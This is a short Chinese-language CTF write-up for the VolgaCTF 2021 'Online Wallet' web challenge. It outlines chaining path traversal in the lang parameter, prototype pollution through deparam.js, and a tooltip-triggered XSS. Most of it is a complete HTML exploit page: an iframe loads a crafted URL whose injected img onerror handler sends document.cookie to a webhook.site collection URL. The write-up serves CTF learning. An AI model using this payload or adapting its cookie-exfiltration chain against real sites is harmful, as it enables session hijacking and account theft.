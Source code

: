 

源码中存在

`<span class="d-inline-block" tabindex="0" data-toggle="tooltip" title="Not implemented yet" id="depositButton">`

是一个使用了tooltip的元素，id是depositButton。



总体利用思路如下：

- l利用lang参数的目录遍历引用 `deparam.js`
- 按照gadget的方法污染原型链，怎么写呢，看完下面的payload就明白了，当然顺序不一定要对应上`['1','payload','1']`
- id为`#depositButton`的元素触发tooltip进而触发XSS



payload

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

  </head>
  <body>
    <script>
      fetch('https://webhook.site/f77fba3b-a14a-4fad-a39e-2f439861882a?check').then(r =>r).catch(err => console.log(err))
    function run() {
      setTimeout(() => {
f.src = "https://wallet.volgactf-task.ru/wallet?lang=/../deparam&a[0]=2&a[__proto__][__proto__][div][0]=1&a[__proto__][__proto__][div][1]=%3Cimg%20src%20onerror%3Dfetch(%22https%3A%2F%2Fwebhook.site%3Fc%3D%22%2Bdocument.cookie)%3E&a[__proto__][__proto__][div][2]=1#depositButton"
      }, 2000)
      
    }
  </script>
    <iframe id="f" onload="run()" src="https://wallet.volgactf-task.ru/wallet?lang=/../deparam&a[0]=2&a[__proto__][__proto__][div][0]=1&a[__proto__][__proto__][div][1]=%3Cimg%20src%20onerror%3Dfetch(%22https%3A%2F%2Fwebhook.site%3Fc%3D%22%2Bdocument.cookie)%3E&a[__proto__][__proto__][div][2]=1"></iframe>
  </body>

</html>
```



### 寻找原型链污染的小技巧

取自：[Online Wallet (part 2)](https://blog.blackfan.ru/2021/03/volgactf-2021-quals-online-wallet.html#Online_Wallet_part_2_135)
